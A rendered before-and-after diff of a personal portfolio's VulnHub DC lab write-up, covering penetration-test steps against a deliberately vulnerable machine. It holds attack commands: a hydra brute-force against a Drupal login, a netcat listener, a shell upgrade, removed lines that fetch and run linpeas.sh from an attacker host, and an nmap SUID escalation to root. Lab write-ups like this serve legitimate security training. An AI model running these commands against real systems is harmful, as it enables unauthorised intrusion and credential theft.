

Before and after one commit to engraham/Eric_Graham-Portfolio, a Markdown page: Pentest-Labs/VulnHub — DC.md, 3 parts joined by grey strips. Shown at 94% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Update VulnHub — DC.md
committing for "save"... not done, but done for tonight

````diff
--- a/Pentest-Labs/VulnHub — DC.md
+++ b/Pentest-Labs/VulnHub — DC.md
@@ -74,6 +74,8 @@ nmap -sV -A <target-ip>
 
 ![nmap_scan](/screenshots/vulnhub/nmap_scan.png)
 
+![netdiscovery](/screenshots/vulnhub/netdiscover.png)
+
 ![netdiscovery](/screenshots/vulnhub/netdiscovery_output.png)
 
 **Result:**
@@ -107,19 +119,19 @@ Found `/admin` login portal.
 ```bash
-hydra -l admin -P /usr/share/wordlists/rockyou.txt <target-ip> http-post-form "/admin:username=^USER^&password=^PASS^:Invalid"
+hydra -l admin -P ~/rockyou.txt 192.168.57.131 http-post-form "/?q=user/login:name=^USER^&pass=^PASS^&form_id=user_login&op=Log+in:F=200"
 ```
 
 **Result:**
-Got valid creds `admin:password123`.
+Hydra was not the best tool. Trying multiple passwords caused Drupal lockout protection and blocked my IP.
 
 ---
 
 ### 🗝️ Reverse Shell
 
-Uploaded a PHP reverse shell or used an RCE:
+**Used exploit:**
 
-```bash
-nc -lvnp 4444
-```
+![metasploit](/screenshots/vulnhub/msf_search_exploit.png)
 
-Browser request triggered connection.
+![metasploit](/screenshots/vulnhub/msf_drupalgeddon2.png)
+
+
 Got a low-privilege shell.
@@ -133,41 +151,27 @@ Upgraded shell to interactive:
 ```bash
 python3 -c 'import pty; pty.spawn("/bin/bash")'
 ```
+![meterpreter](/screenshots/vulnhub/script_better_shell.png)
 
+
+![meterpreter](/screenshots/vulnhub/shell_root.png)
+
+**Result:**
+
+Got root shell!
+* Listed `/root` → found `flag.txt`
 ---
+
 
 ### 🔓 Privilege Escalation
 
-Ran `linpeas.sh`:
 
-```bash
-wget http://<kali-ip>/linpeas.sh
-chmod +x linpeas.sh
-./linpeas.sh
-```
-
-**Found:**
-
-* Kernel vuln (dirty cow or similar)
-* SUID misconfig (`/usr/bin/nmap` with interactive mode)
-
----
-
-**Used exploit:**
-
-```bash
-nmap --interactive
-!sh
-```
-
-**Result:**
-Got root shell!
 
 ---
 
 ### 🔗 Pivot & Exfiltration
 
-* Listed `/root` → found `flag.txt`
+
 * Checked `/etc/shadow`
 * Downloaded flag:
 
````
Also changed, not shown: other parts of Pentest-Labs/VulnHub — DC.md (+16 -0 lines).
